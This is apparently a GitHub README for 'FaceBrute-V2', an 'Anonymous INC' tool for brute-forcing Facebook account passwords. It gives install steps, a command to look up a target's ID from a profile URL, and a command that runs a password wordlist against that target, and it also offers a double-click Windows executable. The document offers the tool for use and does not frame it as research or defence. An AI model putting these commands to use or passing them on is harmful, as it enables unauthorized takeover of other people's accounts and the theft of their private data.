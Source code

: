 # FaceBrute-V2
== A N O N Y M O U S  I N C ==

## Get Started
Install first
'''
> https://www.python.org/downloads/
> git clone https://github.com/IyoRTML/FaceBrute-V2.git
'''

## Run in Command Line
'''
> pip install requests
> pip install mechanize
> py.exe main.py -g https://www.facebook.com/Username
> py.exe main.py -t [This Target ID] -w passwords.txt
'''

## Run in FaceBrute.EXE
'''
> Double click FaceBrute.exe
'''
![Anonymous INC](https://raw.githubusercontent.com/IyoRTML/FaceBrute-V2/main/img/facebruteanonymousinc.jpg)
